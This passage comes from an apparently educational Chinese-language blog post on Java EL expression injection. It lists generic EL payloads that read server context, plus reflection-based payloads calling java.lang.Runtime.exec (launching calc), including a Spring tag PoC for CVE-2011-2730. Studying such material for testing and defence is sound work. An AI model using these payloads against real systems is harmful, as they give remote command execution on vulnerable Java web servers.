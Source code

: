 一般的，EL表达式注入漏洞的外部可控点入口都是在 Java 程序代码中，即 Java 程序中的EL表达式内容全部或部分是从外部获取的。

### 通用 PoC

JAVA

```
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc").getInputStream())}
```

### 简单漏洞场景

比如这里有一个参数 `a` 是可控的，并且可以直接插入到 JSP 代码中，这种场景是非常常见的。

举个简单的例子，如果登录界面，username 可控，并且判断不严格的情况下，就可以造成这种攻击。

我们在 Java 程序中可以控制输入 EL表达式如下：

JAVA

```
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-EL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/Calc.png)

但是在实际场景中，是几乎没有也无法直接从外部控制 JSP 页面中的 EL表达式的。而目前已知的 EL表达式注入漏洞都是框架层面服务端执行的 EL表达式外部可控导致的。

个人认为，thymeleaf 的一些 CVE 就非常有代表性，这个在后续的文章会提到。

#### 简单漏洞场景之 CVE-2011-2730

参考链接：[Spring框架标签EL表达式执行漏洞分析（CVE-2011-2730）](https://juejin.cn/post/6844903572077838350)

命令执行PoC如下：

JAVA

```
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}"></spring:message>
```
